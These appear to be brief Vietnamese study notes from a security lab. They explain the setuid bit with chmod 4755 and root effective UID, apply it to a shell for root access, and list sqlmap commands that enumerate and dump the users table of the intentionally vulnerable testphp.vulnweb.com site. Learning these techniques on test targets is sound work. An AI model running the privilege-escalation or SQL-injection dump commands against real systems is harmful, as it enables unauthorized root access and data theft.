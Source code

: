 - ./myid -> uid=1000(seed) gid=1000(seed) groups=1000(seed),27(sudo) -> vẫn ko thay đổi, vẫn chỉ chạy ở quyền user seed
- sudo chmod 4755 myid1 
    + r(4)w(2)x(1) => 4755 = rwxr-xr-x (4 là bật bit uid)
- ls -l myid1 -> lúc này đã đổi thành  -rwsr-xr-x
- ./myid1 -> uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),27(sudo)
    + euid -> effective uid -> chạy theo quyền của người sở hữu, mà ng sở hữu lúc này là root 


--> áp dụng tương tự với lệnh shell, lúc này lệnh shell có thể thực thi với quyền seed -> thay đổi owner và setuid để có thể thực thi với quyền root (/sh)
    4           7       5   5
uid gid sticky owner-group-other
-------------- -----------------
    3 bit           9bit 
- uid : 1 -> bật uid bit -> ctrinh dc chạy quyền owner 


`SQLMAP`
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch --dbs
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch -D acuart --tables
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch -D acuart -T users --columns
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch -D acuart -T users --dump



